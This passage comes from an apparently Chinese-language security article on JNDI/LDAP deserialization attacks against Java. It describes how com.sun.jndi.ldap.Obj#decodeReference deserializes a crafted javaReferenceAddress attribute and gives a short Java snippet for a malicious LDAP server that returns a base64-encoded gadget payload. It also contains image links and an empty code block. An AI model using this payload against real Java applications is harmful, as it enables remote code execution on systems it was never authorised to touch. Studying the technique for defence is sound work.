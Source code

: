 ```bash
```

和低版本`JDK`运行的`Server`端代码差不多，就把`sendResult`处的代码改成能触发反序列化漏洞的利用链就可以

触发点二：`com.sun.jndi.ldap.Obj.java#decodeReference`函数在对普通的`Reference`还原的基础上，还可以进一步对`RefAddress`做还原处理，其中还原过程中，也调用了`deserializeObject`函数，这意味着我们通过满足`RefAddress`的方式，也可以达到上面第一种的效果。  
需满足以下条件：  
1.第一个字符为分隔符  
2.第一个分隔符与第二个分隔符之间，表示`Reference`的`position`，为`int`类型  
3.第二个分隔符与第三个分隔符之间，表示`type`，类型  
4.第三个分隔符是双分隔符的形式，则进入反序列化的操作  
5.序列化数据用`base64`编码  
`payload`如下

```bash
//方式二
e.addAttribute("javaClassName", "foo");
e.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(serializeObject(getPayload())));
e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
```

[![serialize4.png](assets/1699929760-625fa65b607fbc2136d5b5dd35a52c23.png)](https://storage.tttang.com/media/attachment/2022/05/25/3eda86ed-bbea-4b55-b2c2-a8e25724d918.png)

[![serialize5.png](assets/1699929760-d493ba6c95fc49de78dd3e5baa4673cf.png)](https://storage.tttang.com/media/attachment/2022/05/25/6e5bcaff-c030-4cf3-85dc-85f19a2917ab.png)
